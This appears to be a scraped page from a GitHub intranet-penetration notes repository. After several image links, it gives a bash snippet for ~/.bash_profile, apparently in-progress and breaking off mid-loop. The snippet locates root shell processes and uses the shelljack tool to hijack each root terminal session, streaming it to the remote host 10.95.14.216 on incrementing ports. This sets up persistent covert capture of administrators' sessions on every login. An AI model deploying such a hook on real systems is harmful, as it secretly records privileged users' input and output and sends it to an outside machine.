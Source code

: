 ![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/f44e1d8c195a92f58c12d2966272feaf.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/3ea4c390bb01da4d191380753bb7f211.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/83f162c229da88ad45ae1f6f9169a69d.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/853c4d4be1b7d03605e8fcaba6599ec8.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/b9f44b1132a9e0b04ffd21aac7b090ed.png)

多个root用户同时登入及同时本地记录到文件(脚本进阶):

开发加测试阶段\~/.bash_profile:

\#/root/w/shelljack -f /root/local.log \$\$(either this or below)

num=3344

tmp=\$(ps -ef \| grep "root" \| grep -v grep \| awk '{print \$2}' \| tail -n 1)

echo \$tmp

output=\$(/root/w/shelljack -n 10.95.14.216:\$num \$tmp 2\>&1)

echo output\$output

if [[ \$output = "" ]]

then

echo 123

\#kill -9 \$(ps -ef \| grep "shelljack \\-n 10.95.14.216 \$num" \| awk '{print
\$2}' \| tail -n 1)

sleep 10

/root/w/shelljack -n 10.95.14.216:\$num \$\$

else

echo in

while true;

do

num=\$[\$num+1]

output=\$(/root/w/shelljack -n 10.95.14.216:\$num \$tmp 2\>&1)

if [[ \$output = "" ]]

then

\#kill -9 \$(ps -ef \| grep "shelljack \\-n 10.95.14.216 \$num" \| awk '{print
\$2}' \| tail -n 1) 2\>&1 \>& /dev/null

sleep 10

/root/w/shelljack -n 10.95.14.216:\$num \$\$
